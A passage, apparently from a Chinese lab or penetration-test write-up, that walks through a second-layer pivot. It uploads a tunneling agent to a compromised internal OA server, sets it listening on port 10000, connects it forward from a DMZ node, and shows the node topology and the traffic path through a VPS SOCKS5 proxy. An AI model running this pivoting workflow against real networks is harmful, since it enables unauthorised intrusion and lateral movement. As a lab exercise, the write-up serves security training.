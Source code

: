 此时访问 OA 整个流量走向是：

```plaintext
Computer(操作员笔记本) -> VPS Socks5(0.0.0.0:9000) -> VPS admin 端(0.0.0.0:8888) -> DMZ(172.20.10.3:<randomPort>)
```

*建立第二层隧道*

通过 DMZ 拿下第二层网络通达 OA Shell。

systeminfo 确认类型为 64，上传 64 agent。

由于没有防火墙限制，这回不再像第一层代理 DMZ 主机一样去反连接，尝试选择 agent 自己开放端口 0.0.0.0:10000，让 DMZ 主动连接（正向连接）。

```plaintext
C:\>./windows_x64_agent -l 10000 -s test
2023/03/13 16:25:54 [*] Starting agent node passively.Now listening on port 10000
```

DMZ 主机成功连接 OA 服务器，自动取名 Node 1 成为 Node 0 子节点。

```plaintext
(node 0) >> connect 192.168.52.30:10000
[*] Waiting for response......
[*] New node come! Node id is 1

(node 0) >> back
(admin) >> topo
Node[0]'s children ->
Node[1]

Node[1]'s children ->

(admin) >> detail
Node[0] -> IP: 172.20.10.3:58954  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

Node[1] -> IP: 192.168.52.30:10000  Hostname: PC1  User: whoamianony\bunny
Memo:

(admin) >>
```

继续做备注方便后续回顾。

```plaintext
(admin) >> use 1
(node 1) >> addmemo "通达 OA"
[*] Memo added!
(node 1) >> back
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58954  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

Node[1] -> IP: 192.168.52.30:10000  Hostname: PC1  User: whoamianony\bunny
Memo:  "通达 OA"

(admin) >>
```

